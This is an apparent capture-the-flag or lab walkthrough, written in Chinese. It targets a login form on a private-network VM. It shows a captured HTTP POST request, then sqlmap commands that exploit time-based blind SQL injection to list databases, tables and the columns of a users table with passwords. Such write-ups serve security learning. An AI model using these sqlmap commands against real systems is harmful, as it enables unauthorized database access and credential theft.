 抓包看一下：

```text
POST /login.php HTTP/1.1
Host: 10.0.2.12
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.0.2.12
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.12/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s499nedv7djhha1tnjjs1onjlj
Connection: close

username=admin&password=password&login=
```

`sqlmap`梭一下：

```bash
sqlmap -r sql.txt -p username -dbs
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403271837214.png" alt="image-20240327154619801" style="zoom:50%;" />

是一个基于时间的盲注。。。。

找到三个数据库。

尝试获取表：

```bash
sqlmap -l sql.txt --batch -D vinyl_marketplace --tables
```

```apl
Database: vinyl_marketplace
[1 table]
+-------+
| users |
+-------+
```

查看列值：

```bash
sqlmap -l sql.txt --batch -D vinyl_marketplace -T users --columns
```

```apl
[4 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| id             | int          |
| login_attempts | int          |
| password       | varchar(255) |
| username       | varchar(255) |
+----------------+--------------+
```
